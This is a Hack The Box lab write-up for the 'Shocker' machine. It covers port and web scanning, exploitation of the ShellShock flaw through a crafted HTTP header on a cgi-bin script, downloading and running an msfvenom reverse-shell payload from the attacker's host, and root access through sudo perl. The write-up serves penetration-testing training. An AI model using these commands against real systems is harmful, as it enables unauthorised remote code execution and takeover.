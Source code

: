 # [Shocker](https://app.hackthebox.eu/machines/108)

Start with `nmap`:

```bash
# find open TCP ports
sudo masscan -p1-65535 10.10.10.56 --rate=1000 -e tun0 > masscan.txt
tcpports=$(cat masscan.txt | cut -d ' ' -f 4 | cut -d '/' -f 1 | sort -n | tr '\n' ',' | sed 's/,$//')
# TCP deep scan
sudo nmap -sS -p $tcpports -oA tcp --open -Pn --script "default,safe,vuln" -sV 10.10.10.56 &
# TCP quick scan
sudo nmap -v -sS -sC -F --open -Pn -sV 10.10.10.56
# UDP quick scan
sudo nmap -v -sU -F --open -Pn -sV --version-intensity 0 10.10.10.56
```

The TCP quick scan returns the following:

![nmap1](./shocker/nmap1.png)

Start the following web scanner:

```bash
nikto -h http://10.10.10.56/ -C all --maxtime=120s --output=nikto.txt
```

![nikto1](./shocker/nikto1.png)

Browse to the site manually:

```bash
firefox http://10.10.10.56/
```

![web1](./shocker/web1.png)

Site looks custom. Start a directroy scanner looking for `php` pages:

```bash
ulimit -n 8192 # prevent file access error during gobuster scanning
gobuster dir -t 50 -r -q -z -o gobuster.txt -x php \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -a 'Mozilla/5.0' \
  -u http://10.10.10.56/ &
```

Looking at the HTML source does not show anything interesting:

![web2](./shocker/web2.png)

The web directory scanner does not show anything interesting... The Apache version of 2.4.18 does not have any helpful exploits either... The full `nmap` scan returns another open port:

![nmap2](./shocker/nmap2.png)

SSH is not helpful unless a username is known for a possible bruteforce... Maybe the target hostname of `shocker` is a hint at the ShellShock vulnerability?

- https://www.exploit-db.com/docs/48112

> GNU Bash versions 1.14 through 4.3 contain a flaw that processes  commands placed after function definitions in the added environment  variable, allowing remote attackers to execute arbitrary code via a  crafted environment which enables network-based exploitation. Critical instances where the vulnerability may be exposed include: 
>
> - Apache HTTP Server using mod_cgi or mod_cgid scripts either written in bash,  or spawn GNU Bash subshells, or on any system where the /bin/sh interface is implemented using GNU Bash.
> - Override or Bypass  ForceCommand feature in OpenSSH sshd and limited protection for some Git and Subversion deployments used to restrict shells and allows arbitrary command execution capabilities. This data path is vulnerable on systems where the /bin/sh interface is implemented using GNU Bash.
> - Allow arbitrary commands to run on a DHCP client machine

Try looking for any script files in `cgi-bin`:

```bash
ulimit -n 8192 # prevent file access error during gobuster scanning
gobuster dir -t 50 -r -q -z -o gobuster.cgi.txt -x php,cgi,sh,py,rb,pl \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -a 'Mozilla/5.0' \
  -u http://10.10.10.56/cgi-bin/ &
```

And this returns an interesting value:

```
/user.sh (Status: 200)
```

Try connecting:

```bash
curl http://10.10.10.56/cgi-bin/user.sh
```

![curl1](./shocker/curl1.png)

Looks like some script is running. Try injecting a random command using ShellShock with an HTTP header:

```bash
# listen to catch the ping
sudo tcpdump -i tun0 icmp
# see if the target will execute the ping
curl -v http://10.10.10.56/cgi-bin/user.sh -H 'bubba: () { :;}; /bin/ping -c 1 10.10.14.25'
```

And this does return a ping from the target! Use this to get a shell on the target:

```bash
# generate and host payload
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=6969 \
         -f elf \
         -o bubba.elf
sudo python3 -m http.server 80
nc -nvlp 6969
# upload payload to target
curl -v http://10.10.10.56/cgi-bin/user.sh \
  -H "bubba: () { :;}; /usr/bin/wget -O /tmp/bubba.elf http://10.10.14.25/bubba.elf"
# make payload executable
curl -v http://10.10.10.56/cgi-bin/user.sh \
  -H "bubba: () { :;}; /bin/chmod +x /tmp/bubba.elf"
# execute payload
curl -v http://10.10.10.56/cgi-bin/user.sh \
  -H "bubba: () { :;}; /tmp/bubba.elf &"  
```

And this gets a shell with `user.txt`:

![user1](./shocker/user1.png)

After connecting, the user `shelly` has an interesting Sudo permission:

![user2](./shocker/user2.png)

This can be used to get a shell as `root` easily:

- https://gtfobins.github.io/gtfobins/perl/

```bash
sudo /usr/bin/perl -e 'exec "/bin/sh";'
```

![root1](./shocker/root1.png)

